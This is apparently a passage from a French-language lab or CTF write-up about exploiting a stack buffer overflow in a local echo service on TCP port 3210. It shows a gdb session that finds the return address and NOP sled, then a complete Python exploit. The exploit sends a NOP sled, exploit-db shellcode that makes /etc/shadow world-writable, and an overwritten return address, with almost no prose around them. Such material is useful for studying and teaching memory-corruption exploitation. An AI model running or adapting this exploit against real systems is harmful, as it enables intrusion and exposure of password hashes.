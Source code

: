 ```console
   0x00401279 <+32>:    push   %edx
   0x0040127a <+33>:    mov    %eax,%ebx
   0x0040127c <+35>:    call   0x401080 <strcpy@plt>
   0x00401281 <+40>:    add    $0x10,%esp
   0x00401284 <+43>:    mov    $0x0,%eax
   0x00401289 <+48>:    mov    -0x4(%ebp),%ebx
   0x0040128c <+51>:    leave  
   0x0040128d <+52>:    ret    
End of assembler dump.
(gdb) b *0x0040128d
Breakpoint 2 at 0x40128d: file smashthestack.c, line 15.
(gdb) c
Continuing.
Thank you for run this program  
Welcome to Echo System 
Check this system TCP port 3210

Breakpoint 2, 0x0040128d in vulncode (stack1=2573, reply=0xbffff230 '\220' <repeats 200 times>...) at smashthestack.c:15
15      in smashthestack.c
(gdb) x/wx $esp
0xbffff21c:     0xdeadbeef
(gdb) x/wx $esp-732
0xbfffef40:     0x90909090
```

Donc `0xbfffef40` va nous servir de référence. Comme sur les exploits d'il y a 2 / 3 décennies, on va écrire un exploit qui accepte un offset pour corriger l'adresse :

```python
import sys
from socket import socket
from struct import pack

offset = int(sys.argv[1])
shellcode_addr = 0xbfffef40+offset

# https://www.exploit-db.com/shellcodes/13392
# (linux/x86) chmod("/etc/shadow", 0666) + exit() - 32 bytes
shellcode = (
    b"\x6a\x0f"               #  push $0xf
    b"\x58"                   #  pop %eax
    b"\x31\xc9"               #  xor %ecx,%ecx
    b"\x51"                   #  push %ecx
    b"\x66\xb9\xb6\x01"       #  mov $0x1b6,%cx
    b"\x68\x61\x64\x6f\x77"   #  push $0x776f6461
    b"\x68\x63\x2f\x73\x68"   #  push $0x68732f63
    b"\x68\x2f\x2f\x65\x74"   #  push $0x74652f2f
    b"\x89\xe3"               #  mov %esp,%ebx
    b"\xcd\x80"               #  int $0x80
    b"\x40"                   #  inc %eax
    b"\xcd\x80"               #  int $0x80
)

payload = b"\x90" * (732 - len(shellcode)) + shellcode + pack("<I", shellcode_addr)
payload += b"\r\n"

sock = socket()
sock.connect(("127.0.0.1", 3210))
sock.send(payload)
sock.close()
```
